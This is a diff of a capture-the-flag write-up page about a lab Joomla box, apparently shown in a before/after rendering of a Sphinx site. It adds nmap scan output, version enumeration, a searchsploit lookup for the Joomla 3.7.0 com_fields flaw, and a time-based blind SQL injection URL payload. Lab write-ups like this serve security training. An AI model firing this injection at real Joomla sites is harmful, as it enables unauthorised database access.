

Before and after one commit to tymyrddin/red-escalation, a Sphinx documentation site: the page built from source/docs/thm/bugle.md, in a window 1280 px wide and 1400 px high, scrolled down 508 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/source/docs/thm/bugle.md
+++ b/source/docs/thm/bugle.md
@@ -18,7 +18,16 @@ Run a simple port scan (without Ping)
 portscan:
 
 ```text
+# Nmap 7.92 scan initiated Sat Oct  1 22:50:08 2022 as: nmap -Pn -p- -oN portscan 10.10.38.105
+Nmap scan report for 10.10.38.105
+Host is up (0.043s latency).
+Not shown: 65532 closed tcp ports (reset)
+PORT     STATE SERVICE
+22/tcp   open  ssh
+80/tcp   open  http
+3306/tcp open  mysql
 
+# Nmap done at Sat Oct  1 22:51:17 2022 -- 1 IP address (1 host up) scanned in 69.03 seconds
 ```
 
 Run an `-A` scan on the open ports:
@@ -28,23 +37,82 @@ Run an `-A` scan on the open ports:
 servicescan:
 
 ```text
+# Nmap 7.92 scan initiated Sat Oct  1 22:51:25 2022 as: nmap -Pn -T4 -A -p22,80,3306 -oN servicescan 10.10.38.105
+Nmap scan report for 10.10.38.105
+Host is up (0.039s latency).
 
+PORT     STATE SERVICE VERSION
+22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
+| ssh-hostkey:
+|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
+|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
+|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
+80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
+| http-robots.txt: 15 disallowed entries
+| /joomla/administrator/ /administrator/ /bin/ /cache/
+| /cli/ /components/ /includes/ /installation/ /language/
+|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
+|_http-generator: Joomla! - Open Source Content Management
+|_http-title: Home
+|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
+3306/tcp open  mysql   MariaDB (unauthorized)
+Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
+Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Linux 3.10 (92%), Linux 3.12 (92%), Linux 3.19 (92%), Linux 3.2 - 4.9 (92%)
+No exact OS matches for host (test conditions non-ideal).
+Network Distance: 2 hops
+
+TRACEROUTE (using port 3306/tcp)
+HOP RTT      ADDRESS
+1   38.60 ms 10.9.0.1
+2   38.79 ms 10.10.38.105
+
+OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
+# Nmap done at Sat Oct  1 22:51:44 2022 -- 1 IP address (1 host up) scanned in 19.41 seconds
 ```
 
 ### Exploring
 
+| ![The Bugle](../../_static/images/Screenshot from 2022-10-01 22-55-47.png) |
+|:--:|
+| http://10.10.38.105 |
+
+Get version via the `joomla.xml` file:
+
+| ![Joomla.xml](../../_static/images/Screenshot from 2022-10-01 22-56-25.png) |
+|:--:|
+| http://10.10.38.105/administrator/manifests/files/joomla.xml |
+
+Or get version from README.txt:
+
+    # curl -s http://<IP address target machine>/README.txt | head
+
+Check for Joomla 3.7.0 vulnerabilities:
 
     # searchsploit joomla 3.7.0
+    ---------------------------------------------- ---------------------------------
+     Exploit Title                                |  Path
+    ---------------------------------------------- ---------------------------------
+    Joomla! 3.7.0 - 'com_fields' SQL Injection    | php/webapps/42033.txt
+    Joomla! Component Easydiscuss < 4.0.21 - Cros | php/webapps/43488.txt
+    ---------------------------------------------- ---------------------------------
+    Shellcodes: No Results
+    Papers: No Results
 
 Mirroring:
 
     # searchsploit -m php/webapps/42033.txt
+      Exploit: Joomla! 3.7.0 - 'com_fields' SQL Injection
+          URL: https://www.exploit-db.com/exploits/42033
+         Path: /usr/share/exploitdb/exploits/php/webapps/42033.txt
+    File Type: ASCII text
 
 Apparently, this version of Joomla is affected by a blind SQL injection in the `list[fullordering]` parameter.
 
 In browser, run the payloaod provided by SQLMap to confirm the endpoint is vulnerable:
 
-    http://<IP address target machine>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu)
+| ![Confirmation](../../_static/images/Screenshot from 2022-10-01 23-30-47.png) |
+|:--:|
+| http://10.10.38.105/index.php?option=com_fields&view=fields&layout=<br>modal&list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu) |
 
 ### Gaining a foothold
 
````
Also changed, not shown: source/_static/images/Screenshot from 2022-10-01 22-55-47.png (added), source/_static/images/Screenshot from 2022-10-01 22-56-25.png (added), source/_static/images/Screenshot from 2022-10-01 23-30-47.png (added).
